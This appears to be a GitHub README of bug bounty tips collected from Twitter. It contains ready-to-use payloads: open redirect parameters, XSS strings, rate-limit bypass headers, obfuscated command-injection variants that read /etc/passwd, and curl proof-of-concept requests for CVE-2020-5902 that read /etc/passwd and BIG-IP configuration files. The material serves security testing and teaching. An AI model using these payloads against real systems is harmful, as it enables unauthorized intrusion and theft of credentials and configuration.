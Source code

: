 # Bug Bounty Tips from Twitter
This is a collection of Bug Bounty Tips collected from infosec professionals / bug hunters on twitter.

### Another useful resources
* [Curated list of Bug Bounty Writeups](https://github.com/devanshbatham/Awesome-Bugbounty-Writeups)
* [Resources for Beginners](https://github.com/nahamsec/Resources-for-Beginner-Bug-Bounty-Hunters)
***

## SMTP server takeover
```
1. Visit target.com
2. Masscan on target.com
3. Get SMTP(25) port open
4. Run netcat
    nc -v <ip><port>
```

**Observations:**
* The only exploitable thing is if the SMTP server allows unauthenticated emails being sent, as that an attacker could use the company SMTP server to send spam/junk mails. and probably will be a P3 or P4, or a nice informative because its a grey area bug.

***

## 25 Open Redirect Dorks 

```javascript
/{payload}
?next={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={pay load}
?return_path={payload}
```

***

## XSS Payloads

```html
#><img src=x onerror=alert()>.jpg
```
***

## XSS Email User Input 
* The email: test@test.com is being reflected
* But its required "@" in the email field
* Following up the [Brutelogic explanation](https://brutelogic.com.br/blog/xss-limited-input-formats/) for limited input formats
* **The Payload tested in this case:**
```html
“<svg/onload=alert(1)>”@x.y 
```
**Observations:**


* [Medium post source](https://medium.com/bugbountywriteup/reflected-user-input-xss-c3e681710e74)
***

## Bypassing 2FA with CSRF (abusing the 2FA functionality)

> 1) Create 2 accounts on target.com
> 2) Turn on 2FA in both accounts
> 3) Click on disable 2FA for any of the account and capture it in burp
> 4) Close the tab for first account and stay loggend in on 2nd account
> 5) Simply submit the CSRF PoC in a new tab
> 6) See if the 2FA is disabled in the 2nd account

***

## Bypassing Rate Limit on Header

```http
Add header/s with request:

X-Originating-IP: IP
X-Forwarded-For: IP
X-Remote-IP: IP
X-Remote-Addr: IP
X-Client-IP: IP
X-Host: IP
X-Forwared-Host: IP
```
**Observations:**
* This only works, if the load balancer does not discard these headers before passing the request. Whenver they do not discard them but rely on them it is a security mistake. Also try like local addresses such as 127.0.0.1 to see if it yields extra data in the response

***

## SSRF using assetfinder & waybackurls
* Find API links in subdomains
```bash
assetfinder --subs-only http://target.com | waybackurls | grep "?url="
```
Tools from @tomnomnom
* [assetfinder](https://github.com/tomnomnom/assetfinder)
* [waybackurls](https://github.com/tomnomnom/waybackurls)

***

## Comand Injection - Filter Bypass

```console
cat /etc/passwd
cat /e"t"c/pa"s"swd
cat /'e'tc/pa's' swd
cat /etc/pa??wd
cat /etc/pa*wd
cat /et' 'c/passw' 'd
cat /et$()c/pa$()$swd
cat /et${neko}c/pas${poi} swd
{cat,/etc/passwd} 
*echo "dwssap/cte/ tac" | rev
$(echo Y2FOIC9ldGMvcGFzc3dkCg== base64 -d)
w\ho\am\i
/\b\i\n/////s\h
who$@ami
xyz%0Acat%20/etc/passwd
IFS=,;`cat<<<uname,-a`
/???/??t /???/p??s??
test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
```
***

## Finding Google Maps API Key

>1. Find the page on http://target.com where the google map is embedded .
>2. View page source.
>3. Got google map key.
>4. Use https://github.com/ozguralp/gmapsapiscanner to exploit.

**Observations:**
* Another tools to find secrets (api keys, access tokens, JWT etc):
    - [SecretFinder](https://github.com/m4ll0k/SecretFinder)
    - [JSParser](https://github.com/nahamsec/JSParser)

***

## BIGIP CVE-2020-5902 PoC
*CVE-2020-5902 allows for unauthenticated attackers  execute arbitrary system commands, create or delete files, disable services, and/or execute arbitrary Java code.  [[+]](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-5902)*

```powershell
https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
```

```console
https://{host}/tmui/login.jsp/..;/tmui/system/user/authproperties.jsp
```

```ruby
https://{host}/tmui/login.jsp/..;/tmui/util/getTabSet.jsp?tabId=jaffa
```

```bash
https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.license
```

```python
https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.conf
```

* **Manuel POC**:
```ruby
curl -sk 'https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'
```

```bash
curl -sk 'https://{IP}/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'
```

* **Nuclei Detect CVE-2020-5902**
https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/CVE-2020-5902.yaml

```console
nuclei -t ~/tool/nuclei/nuclei-templates/cves/CVE-2020-5902.yaml -l https.txt
```
![image](https://i.ibb.co/hHsWjrk/4.png)

![image](https://i.ibb.co/fNm0JGL/2.png)

* **NMAP Script for CVE-2020-5902**

```powershell
wget https://raw.githubusercontent.com/RootUp/PersonalStuff/master/http-vuln-cve2020-5902.nse
```

```console
nmap -p443 {IP} --script=http-vuln-cve2020-5902.nse
```

![image](https://i.ibb.co/S0df0bk/5.png)